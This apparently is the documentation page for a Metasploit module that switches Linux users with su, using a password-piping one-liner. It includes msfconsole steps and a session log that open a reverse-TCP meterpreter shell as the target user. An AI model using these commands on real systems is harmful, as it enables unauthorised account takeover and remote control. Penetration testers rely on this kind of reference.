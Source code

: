 ## Description

  This module attempts to create a new login session by invoking the su command of a valid username and 
  password. If the login is successful, a new session is created via the specified payload. While this 
  functionality can be reproduced by a TTY shell, a hacker might want to switch users with a meterpreter 
  session, or simply have all of their shells managed in one place.

  The su command is used in Linux and Unix environments to change to another user in Linux. We can use this
  command to launch our payload as another user by running `su - [username] -c [payload]`. However, because
  you cannot pass in the password into su directly, we have to get a little more crafty. By running a command
  in sh, we can pipe the output to our su command (kind of) by using the following command:
  `sh -c 'sleep 1; echo [password]' | script /dev/null -qc 'su - [username] -c [payload]'`.

  Working example: `sh -c 'sleep 1; echo lamepassword' | script /dev/null -qc 'su - admin -c /tmp/shell'`

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Get valid target username and password
  4. Do: `use exploit/linux/local/su_login`
  5. Do: `set SESSION [SESSION]`
  6. Do: `set USERNAME [USERNAME]`
  7. Do: `set PASSWORD [PASSWORD]`
  8. Do: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
  9. Do: `set LHOST [LHOST]`
  10. Do: `set LPORT [LPORT]`
  11. Do: `run`
  12. You should get a new session as the specified user

## Options

  ### USERNAME
  The username of the user to switch to
  
  ### PASSWORD
  The password of the user to switch to

## Scenarios

  ```
  meterpreter > getuid
  Server username: tester @ edf3515e4c8f (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > background
  [*] Backgrounding session 1...  

  msf > use exploit/linux/local/su_login 
  msf exploit(linux/local/su_login) > set SESSION 1
  msf exploit(linux/local/su_login) > set USERNAME admin
  msf exploit(linux/local/su_login) > set PASSWORD lamepassword
  msf exploit(linux/local/su_login) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/su_login) > set LHOST 192.168.3.193
  msf exploit(linux/local/su_login) > set LPORT 4445
  msf exploit(linux/local/su_login) > run

  [*] Started reverse TCP handler on 192.168.3.193:4445 
  [*] Uploading payload to target
  [*] Attempting to login with su
  [*] Sending stage (976712 bytes) to 172.17.0.2
  [*] Meterpreter session 2 opened (192.168.3.193:4445 -> 172.17.0.2:39868) at 2020-09-23 04:26:49 -0400

  meterpreter > getuid
  Server username: admin @ 59f089909a39 (uid=1001, gid=1001, euid=1001, egid=1001)
  ```
